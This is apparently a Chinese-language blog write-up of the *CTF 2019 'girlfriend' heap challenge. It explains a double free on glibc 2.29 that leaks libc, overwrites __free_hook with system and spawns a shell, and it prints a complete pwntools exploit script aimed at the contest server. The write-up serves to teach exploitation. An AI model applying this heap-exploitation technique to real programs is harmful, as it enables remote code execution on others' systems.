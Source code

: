 ```yaml
---
title: Starctf2019_Girlfriend
date: 2019-04-29 09:59:25
tags:
---
```

libc 2.29+double free
new libc new life
<!--more-->
# start 
[binary][1]

题目还是简单的主要是涉及`libc2.29`
环境问题比赛前一定要弄好...
我之前搞过2.29所以对检查还是挺熟悉的...
本来有机会拿一血的可惜不知为啥ubunu19.04虚拟机太卡了...然后用上题目的libc也用了1个小时...
拿个了5血...还是`docker`大法好...
# Analysis
普通菜单题.有`show`,`add`,`del`功能
结构体长这样
```s
00000000 node            struc ; (sizeof=0x18, mappedto_6)
00000000 name            dq ?
00000008 size            dd ?
0000000C call            db 12 dup(?)
00000018 node            ends
```
checksec:
```
[*] '/home/n132/Desktop/gf/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
# 漏洞
## leak
直接利用show来泄露.
泄露`libc`:`free()` 7次填满`tcache`注意这里有`double`的检测感兴趣的可以看看源码..主要绕过就是`free`不同的`chunk`
例如:
```python
for x in range(8):
    add(0x88)
add(0x1)
for x in range(8):
    free(x)
show(8)
```
## double free
```arm
 if ( list[idx] )
    free((void *)list[idx]->name);
```
存在`uaf` 绕过`libc 2.29 tcache`关于`double free`的检测可以通过填满tcahce 从而利用`fastbin atk`
例如
```python
for x in range(9):
	add(0x68)#idx=9~17
for x in range(8):
	free(9+x)
free(17)
free(16)

for x in range(7):
	add(0x68,'/bin/sh\00')
add(0x68,p64(0x3b38c8+base))#hijack __free_hook=>system
```

# 思路
* leak libc
* hijack freehook++++>system

# exp
```python
from pwn import *
def cmd(c):
    p.sendlineafter("e:",str(c))
def add(size=0x88,name="W",call=p64(0x10086)):
    cmd(1)
    p.sendlineafter("name",str(size))
    p.sendafter("name:",name)
    p.sendlineafter("call:",call)
def show(idx):
    cmd(2)
    p.sendlineafter("index:",str(idx))
def free(idx):
    cmd(4)
    p.sendlineafter("index:\n",str(idx))
p=remote("34.92.96.238",10001)
for x in range(8):
	add(0x88)#0
for x in range(8):
	free(7-x)
add(0x18)
show(8)
p.readuntil("name:\n")
base=u64(p.read(6).ljust(8,'\x00'))-(0x7ffff7fb0a57-0x7ffff7dce000)-(0x7ffff7dd0200-0x7ffff7dce000
)-(0x00007ffff7a1f000-0x7ffff7bec000)-(0x7ffff7db9000-0x7ffff7a1f000)
log.warning(hex(base))
for x in range(9):
	add(0x68)#9-17
for x in range(8):
	free(9+x)
free(17)
free(16)

for x in range(7):
	add(0x68,'/bin/sh\00')
__free_hook=0x3b38c8+base
add(0x68,p64(__free_hook))
add(0x68)
add(0x68)
context.log_level='debug'
sys=0x41c30+base
#gdb.attach(p)
add(0x68,p64(sys))
free(20)
p.interactive()
```

# tip
* 在`tcache`下还是`__free_hook`====>`system`好用
* 家中常备个版本`desktop`或者`docker container`


[1]:https://github.com/n132/Watermalon/tree/master/Starctf_2019